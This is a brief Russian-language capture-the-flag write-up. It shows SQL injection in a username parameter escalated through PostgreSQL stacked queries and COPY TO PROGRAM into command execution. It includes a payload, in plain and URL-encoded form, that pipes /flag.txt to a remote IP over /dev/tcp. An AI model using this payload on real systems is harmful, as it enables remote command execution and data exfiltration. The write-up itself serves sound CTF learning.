 В параметр username=test2 допишем '-- чтобы проверить SQL
![](../../attachment/Pasted%20image%2020250417173432.png)

С помощью SQL injeciton stacked queries получим RCE и прочитаем файл
Закодируем команду  '; COPY (SELECT '') to PROGRAM '/bin/bash -c " cat /flag.txt > /dev/tcp/100.100.2.252/4444" c помощью URL кодировки
```
%27%3b%20%43%4f%50%59%20%28%53%45%4c%45%43%54%20%27%27%29%20%74%6f%20%50%52%4f%47%52%41%4d%20%27%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%22%20%63%61%74%20%2f%66%6c%61%67%2e%74%78%74%20%3e%20%2f%64%65%76%2f%74%63%70%2f%31%30%30%2e%31%30%30%2e%32%2e%32%35%32%2f%34%34%34%34%22
```
И подставим в параметр username и получим флаг
![](../../attachment/Pasted%20image%2020250417173831.png)
